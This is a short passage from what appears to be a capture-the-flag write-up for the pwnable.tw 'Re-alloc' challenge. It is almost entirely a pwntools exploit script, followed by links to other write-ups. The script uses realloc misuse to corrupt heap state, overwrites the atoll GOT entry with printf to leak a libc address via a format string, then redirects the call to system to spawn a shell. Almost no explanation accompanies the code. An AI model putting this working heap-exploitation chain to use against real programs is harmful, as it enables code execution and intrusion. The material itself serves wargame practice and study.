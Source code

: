 ```python
free(1)

alloc(0, 0x38, "AAA")
realloc(0, 0, "")
realloc(0, 0x38, p64(elf.got["atoll"]))
alloc(1, 0x38, "BBB")
 
realloc(0, 0x48, "CCC")
free(0)
realloc(1, 0x48, "s"*0x10)
free(1)

alloc(0, 0x38, p64(elf.plt["printf"]))
free("%21$llx")

libc_start_main_ret = int(r(12), 16)
libc_base = libc_start_main_ret - libc.symbols["__libc_start_main"] - 0xeb
system_addr = libc_base + libc.symbols["system"]
success("system address: " + hex(system_addr))
    
sla("Your choice: ", "1")
sla("Index:", "A\x00")
sa("Size:", "A"*15+"\x00")
sa("Data:", p64(system_addr))
free("/bin/sh\x00")

io.interactive()
```



参考：

- [Pwmable.tw Re-alloc](https://zhangyidong.top/2020/10/19/Pwnable_re-alloc/)
- [pwnable.tw Re-alloc](http://izayoi.cn/index.php/2020/07/04/pwnable-tw-re-alloc/)
- [pwnable.tw re-alloc](https://hhdx.xyz/2020/08/07/pwnable-tw-re-alloc/#get-shell)
- [pwnable.tw re-alloc_revenge](https://sh1ner.github.io/2020/02/05/pwnable-tw-re-alloc-revenge/)

